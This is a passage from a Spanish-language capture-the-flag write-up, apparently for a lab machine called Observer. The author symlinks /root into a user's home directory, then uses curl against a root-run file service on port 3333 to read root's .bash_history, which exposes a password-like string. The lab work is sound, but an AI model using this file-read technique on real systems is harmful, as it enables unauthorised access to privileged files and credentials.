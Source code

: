 Vemos que el binario **`/opt/observer`{: .filepath }** está siendo ejecutado por **`root`**, por lo que si se trata del servicio que hemos visto en el puerto **`3333`** significa que podemos leer cualquier fichero.

Para probar mi teoría crearé un **`Symbolic Link`** (**`Link Simbólico`**) a la carpeta **`/root/`{: .filepath }**, de tal manera que cuando vayamos al puerto **`3333`** y especifiquemos la carpeta con el **`Link Simbólico`** podremos ver cualquier fichero de dicha carpeta.

Para entendernos mejor, vamos a verlo en acción. Comencemos por crear el **`Symbolic Link`**:

```sh
jan@observer:~$ ln -s /root root
jan@observer:~$ ls -la
total 40
drwx------ 4 jan  jan  4096 sep  1 15:24 .
drwxr-xr-x 3 root root 4096 ago 21 20:19 ..
-rw------- 1 jan  jan   826 ago 31 15:11 .bash_history
-rw-r--r-- 1 jan  jan   220 ago 21 20:19 .bash_logout
-rw-r--r-- 1 jan  jan  3526 ago 21 20:19 .bashrc
drwxr-xr-x 3 jan  jan  4096 ago 21 20:21 .local
-rw-r--r-- 1 jan  jan   807 ago 21 20:19 .profile
lrwxrwxrwx 1 jan  jan     5 sep  1 15:24 root -> /root
drwx------ 2 jan  jan  4096 ago 21 20:25 .ssh
-rw------- 1 jan  jan    24 ago 21 20:21 user.txt
-rw------- 1 jan  jan    54 ago 21 20:21 .Xauthority
```

Ahora la carpeta **`/home/root/`{: .filepath }** apunta a **`/root/`{: .filepath }**, tratemos de acceder a través del servicio:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Observer]
└─# curl "http://192.168.1.113:3333/jan/root/.bash_history"
ip a
exit
apt-get update && apt-get upgrade
apt-get install sudo
cd
wget https://go.dev/dl/go1.12.linux-amd64.tar.gz
tar -C /usr/local -xzf go1.12.linux-amd64.tar.gz
rm go1.12.linux-amd64.tar.gz 
export PATH=$PATH:/usr/local/go/bin
nano observer.go
go build observer.go 
mv observer /opt
ls -l /opt/observer 
crontab -e
nano root.txt
chmod 600 root.txt 
nano /etc/sudoers
nano /etc/ssh/sshd_config
paswd
fuck1ng0bs3rv3rs
passwd
su jan
nano /etc/issue
nano /etc/network/interfaces
ls -la
exit
ls -la
cat .bash_history
ls -la
ls -la
cat .bash_history
ls -l
cat root.txt 
```